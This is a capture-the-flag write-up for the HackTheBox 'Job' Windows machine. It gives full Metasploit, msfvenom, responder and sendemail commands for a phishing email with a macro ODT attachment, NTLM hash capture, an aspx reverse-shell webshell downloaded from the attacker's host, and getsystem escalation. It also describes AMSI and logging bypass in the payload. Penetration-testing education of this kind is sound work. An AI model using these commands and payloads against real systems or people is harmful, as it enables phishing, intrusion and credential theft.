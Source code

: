 # [HackTheBox - Job](https://app.hackthebox.com/machines/Job)
![b7e7f7bd99b41a69580c344a96e11a66.png](../../../../_resources/b7e7f7bd99b41a69580c344a96e11a66.png)
[toc]
***
## Abstract
Job is a vulnlab machine imported to HackTheBox as a medium Windows box. I started with network enumeration using nmap, which showed the host was a Windows server running SMTP, HTTP, SMB, RDP, and WinRM.

During web enumeration I discovered an email address on the site that could be used for phishing via the exposed SMTP service. I used Metasploit’s "odt_badodt" module to craft a macro-embedded LibreOffice (.odt) file for a reverse shell and obtained an initial shell as "jack.black".

"jack.black" is a member of the "developers" group, which has Full Control over the webroot. I uploaded a webshell and gained a second reverse shell as "IIS APPPOOL\DefaultAppPool". This account has SeImpersonatePrivilege and SeAssignPrimaryTokenPrivilege, which I leveraged with Meterpreter’s getsystem (token impersonation) to escalate to SYSTEM and root the box.

## Enumeration

Starting with nmap port scanning and we can see that there are multiple ports opened including 25,80,445,3389 and 5985
```
nmap $IP
```
![0ff4321b40407db815d0281a3e16abb3.png](../../../../_resources/0ff4321b40407db815d0281a3e16abb3.png)

Then I did another scan but this time I specified all ports identified from previous scan and use `-sCV` for service enumeration and run nmap script engine but we did not get much return for this command so we gonna take a look at the website next.
```
nmap $IP -p 25,80,445,3389,5985 -sCV
```
![ff7ee6a85745d545270059d887bda175.png](../../../../_resources/ff7ee6a85745d545270059d887bda175.png)

On the website, we can see that we must send libre office (odt) file to career@job.local via SMTP protocol, classic phishing case it is.
![6776c064c11e7a6723686025fd527f94.png](../../../../_resources/6776c064c11e7a6723686025fd527f94.png)

Techstack of this website is nothing too special, everything is by default from IIS to Microsoft ASP.NET
![ceb607bb990ec0cfaad085e627d45c81.png](../../../../_resources/ceb607bb990ec0cfaad085e627d45c81.png)

First I will use the "odt_badodt" Metasploit module to quickly generate a LibreOffice file that references a non-existing object on our share to force NTLMv2 authentication; when Windows attempts to access the UNC path it sends an SMB authentication (NTLMSSP) containing the NTLMv2 challenge/response to the target host. (btw I had to run as root because of Permission denied error)
```
use auxiliary/fileformat/odt_badodt
set lhost tun0
set creator mark
set filename resume.odt
run
```
![9a42b89ba42ceeefc336b7eac3f5a27a.png](../../../../_resources/9a42b89ba42ceeefc336b7eac3f5a27a.png)

Then I set a responder to wait for the request on tun0 interface which is our HTB VPN interface.
```
sudo responder -I tun0
```

After responder is ready, We can send an email with an attachment to the server like this
```
sendemail -s $IP -f "mark <mark@job.vl>" -t career@job.local -o tls=no -m "Please review my resume senpai uwu" -a resume.odt 
```
![726803fe7c8f17c000b4b58b09721e92.png](../../../../_resources/726803fe7c8f17c000b4b58b09721e92.png)

And sure enough, the SMB authentication was sent from the machine back to us and we can see that "jack.black" was aggressively review our attachment.
![6e8a12a626c29932d1beba2db9e2dd5a.png](../../../../_resources/6e8a12a626c29932d1beba2db9e2dd5a.png)

I tried to crack the hash with John The Ripper given the infamous `rockyou.txt` wordlist but no luck which mean the password of this user is not in `rockyou.txt` wordlist so cracking is not the way.
![d2e532f4866ec92e387739b66f576361.png](../../../../_resources/d2e532f4866ec92e387739b66f576361.png)

## Initial Access with ODT file to reverse shell

Since we know that "jack.black" will definitely open any odt attachment we give to him so let's change the plan to make macro document that will trigger a reverse shell back to us upon opening 

Luckily for us that Metasploit got us cover with "openoffice_document_macro" module so we set a payload and send this as an email attachment again.
```
use multi/misc/openoffice_document_macro
set payload payload/windows/x64/shell/reverse_tcp
set LHOST tun0
set SRVPORT 80
set SRVHOST tun0
set URIPATH serve
run
```
![7a90282f11ae718fa08fafc379bca41d.png](../../../../_resources/7a90282f11ae718fa08fafc379bca41d.png)

Send email again with newly created document from metasploit  and we can see that we get a shell back as "jack.black" user as expected
```
sendemail -s $IP -f "mark <mark@job.vl>" -t career@job.local -o tls=no -m "Please review my resume senpai uwu" -a msf.odt
```
![6d8b39a46641294b7af51c93b88698fa.png](../../../../_resources/6d8b39a46641294b7af51c93b88698fa.png)
![2fe4b8d013519229ec52fb88c8fc9d3a.png](../../../../_resources/2fe4b8d013519229ec52fb88c8fc9d3a.png)

User flag is located on the desktop of this user so we can loot it and start enumerating for privilege escalation vector.
![38d94ac15fefb064c79b1258135e2ea2.png](../../../../_resources/38d94ac15fefb064c79b1258135e2ea2.png)

If normal shell is not enough, we can also change our payload to meterpreter to get a meterpreter session as well.
![9cbeb18d6f6024777201b5290417ca41.png](../../../../_resources/9cbeb18d6f6024777201b5290417ca41.png)

## Privilege Escalation - Webroot modification to SeImpersonatePrivilege 
### Get shell as DefaultAppPool via webshell
After exploring the machine, we can see that this user is in the "developers" group which have full access to "wwwroot" folder and thats mean we can do anything to this folder including drop a webshell on it.
![8ffd1c418cee011023c1695b24ed9c31.png](../../../../_resources/8ffd1c418cee011023c1695b24ed9c31.png)

Since the server is running IIS (which commonly hosts ASP.NET and executes .aspx pages), We can add an .aspx webshell and trigger it on our web browser which will triggered a reverse shell back to us. but first we need to create webshell first (alternatively you can use pre-made aspx shell like landanum for this as well)
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=5555 -f aspx > shell.aspx
```
![033fcfee46352a5d7717388c44239db3.png](../../../../_resources/033fcfee46352a5d7717388c44239db3.png)

We can use lolbin to download file or even PowerShell to the webroot folder and PowerShell is much more convenient for me. (or use upload function in meterpreter)
```
iwr http://10.10.14.101:8000/shell.aspx -o shell.aspx
```
![d6c4fb1716856d8cd8835dbe91a9ed78.png](../../../../_resources/d6c4fb1716856d8cd8835dbe91a9ed78.png)

Now we have our payload ready but we will also need to set up our listener and "multi/handler" module is the most suitable one for the payload we just created eariler.
```
use multi/handler
set payload windows/x64/meterpreter_reverse_tcp
set lhost tun0
set lport 5555
run
```

I accessed the webshell in my browser, which triggered a reverse shell payload and spawned a new Meterpreter session. Interacting with the session shows we have a shell as "IIS APPPOOL\DefaultAppPool" — the application-pool identity for IIS. App-pool identities often have SeImpersonatePrivilege (allowing impersonation), which can be abused for token/privilege-stealing techniques.
![c9de59cf0261e68c96492617e9a8093c.png](../../../../_resources/c9de59cf0261e68c96492617e9a8093c.png)

### Become SYSTEM with SeImpersonatePrivilege
There are multiple tools that can be used to leverage 
SeImpersonatePrivilege and Meterpreter already have couple methods for that which we can just simply run a single command from meterpreter session and finger cross 🤞 we are SYSTEM now.
```
getsystem
```
![c66ee0736a8e9a37f08b1bdf716a7811.png](../../../../_resources/c66ee0736a8e9a37f08b1bdf716a7811.png)

Now we root the box and done :D
![c41327a9263c49e879d643a2b7e171b4.png](../../../../_resources/c41327a9263c49e879d643a2b7e171b4.png)

https://labs.hackthebox.com/achievement/machine/1438364/757
***
## Bonus - ODT attachment inspection
### NTLM Theft ODT
In metasploit, when we create a bad odt file, it will embeded an image that will load non-existing file on our share drive upon loading this document hence the SMB authentication to our responder. 
![724783bd163ef84d2f7d2392bf5ec306.png](../../../../_resources/724783bd163ef84d2f7d2392bf5ec306.png)
![7cb47e2111502893094c88016881d3fb.png](../../../../_resources/7cb47e2111502893094c88016881d3fb.png)

### Reverse Shell ODT
On the ODT file that responsible for reverse shell, it will be embeded as a macro which will automatically launched upon opening if Macro is enabled on the target. 
![7b07d8ce4d11f1b06574885369afe1db.png](../../../../_resources/7b07d8ce4d11f1b06574885369afe1db.png)

Inspecting the macro, we can see that there is "OnLoad" function that will check the OS of the target that opened this file and if it can run powershell then it will fetch and execute payload hosted on with metasploit. (This is a stager payload so it make sense that it will fetch another payload from the server upon execution)
![349a26ff5345cab7941ac7e697de490b.png](../../../../_resources/349a26ff5345cab7941ac7e697de490b.png)

The payload will attempt to bypass Scriptblock logging and Amsi before execute another powershell payload that was gzipped and base64 encoded.
![0e4d5802f4d1f8def35f2d32ed4c8d98.png](../../../../_resources/0e4d5802f4d1f8def35f2d32ed4c8d98.png)

The last payload will eventually inject shellcode into the memory and result in reverse shell between target host and our machine
![8f5d0b17bce4c7b29afe12fc1654dd2e.png](../../../../_resources/8f5d0b17bce4c7b29afe12fc1654dd2e.png)

That's it for today, peace!
* * *